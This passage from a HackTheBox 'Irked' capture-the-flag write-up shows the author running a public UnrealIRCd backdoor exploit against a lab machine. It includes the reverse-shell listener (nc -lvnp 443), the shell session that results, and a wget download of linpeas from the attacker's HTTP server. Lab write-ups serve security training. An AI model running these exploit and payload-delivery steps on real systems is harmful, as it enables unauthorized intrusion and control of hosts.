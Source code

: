 While I didn't have a version, all of these exploits were for the same version and this was probably worth a try. I took a look at the perl script, but it wasnt quite setup for what I would want to get a reverse shell. I searched for this on github and found a [python script](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor) that looked more promising.

I changed the variables for local IP and port to my HTB IP and port 443.

```sh
# Sets the local ip and port (address and port to listen on)
local_ip = '10.10.14.34'  # CHANGE THIS
local_port = '443'  # CHANGE THIS 
```


I then setup a listener and ran the script.

```sh
kali@kali-[~/boxes/htb/irked/UnrealIRCd-3.2.8.1-Backdoor]$python3 exploit.py -payload bash 10.10.10.117 6697
Exploit sent successfully!
```

A few seconds after the script completed, I got a reverse shell.

```sh
kali@kali-[~/boxes/htb/irked]$nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.117] 48526
bash: cannot set terminal process group (635): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ whoami
whoami
ircd
ircd@irked:~/Unreal3.2$ 
```


# ircd User

Poked around a little bit, but didn't find anything with basic manual enumeration. I transferred linpeas to the system.

```sh
kali@kali-[~/tools/priv_esc/PEASS-ng/linPEAS]$python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.117 - - [18/Dec/2021 21:19:59] "GET /linpeas.sh HTTP/1.1" 200 -
```


```sh
ircd@irked:~$ cd /tmp
cd /tmp
ircd@irked:/tmp$ wget http://10.10.14.34/linpeas.sh -O lin.sh
wget http://10.10.14.34/linpeas.sh -O lin.sh
--2021-12-18 21:20:00--  http://10.10.14.34/linpeas.sh
Connecting to 10.10.14.34:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 451118 (441K) [text/x-sh]
Saving to: ‘lin.sh’

     0K .......... .......... .......... .......... .......... 11%  816K 0s
    50K .......... .......... .......... .......... .......... 22% 1.31M 0s
   100K .......... .......... .......... .......... .......... 34% 1.39M 0s
   150K .......... .......... .......... .......... .......... 45% 1.39M 0s
   200K .......... .......... .......... .......... .......... 56% 1.46M 0s
   250K .......... .......... .......... .......... .......... 68% 1.77M 0s
   300K .......... .......... .......... .......... .......... 79% 1.72M 0s
   350K .......... .......... .......... .......... .......... 90% 1.71M 0s
   400K .......... .......... .......... ..........           100% 1.75M=0.3s

```